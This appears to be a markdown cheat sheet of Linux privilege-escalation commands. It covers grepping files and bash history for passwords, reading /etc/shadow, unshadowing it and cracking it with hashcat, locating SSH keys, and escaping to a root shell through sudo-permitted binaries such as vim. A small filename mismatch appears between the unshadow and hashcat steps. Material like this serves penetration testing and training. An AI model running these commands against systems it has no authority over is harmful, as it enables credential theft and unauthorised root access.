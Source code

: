 ##  Passwords & File Permissions
```shell
# Finding creds in files or bash_history
history
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
locate password | more
# or utilize linpeas script to discover creds

# File permissions
# Note: Keep your eyes open on shadow file premissions. As if you can modify that file you can do a lot of malic stuff!!
# /etc/passwd: can be read by anyone
# /etc/shadow: can be read by only root, not regular user

# 1- cat /etc/passwd  --------> save the output in a new file <passwd>
# 2- cat /etc/shadow  --------> save the output in a new file <shadow>
# 3-  unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
# 4- hashcat -m 1800 shadowed.txt /home/kali/Desktop/rockyou/rockyou.txt -O

# SSH key
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```

## Sudo
# via Sudo Shell Escaping
```shell
# https://gtfobins.github.io/gtfobins
sudo -l
#      (root) NOPASSWD: /usr/sbin/iftop
#      (root) NOPASSWD: /usr/bin/find
#      (root) NOPASSWD: /usr/bin/nano
#      (root) NOPASSWD: /usr/bin/vim
#      (root) NOPASSWD: /usr/bin/man
#      (root) NOPASSWD: /usr/bin/awk
#      (root) NOPASSWD: /usr/bin/less
#      (root) NOPASSWD: /usr/bin/ftp
#      (root) NOPASSWD: /usr/bin/nmap
#      (root) NOPASSWD: /usr/sbin/apache2
#      (root) NOPASSWD: /bin/more

#  Notice the list of programs that can run via sudo. Now utilize one of these to escape shell and be root

sudo vim -c ':!/bin/sh'
# Now you are root user!
```

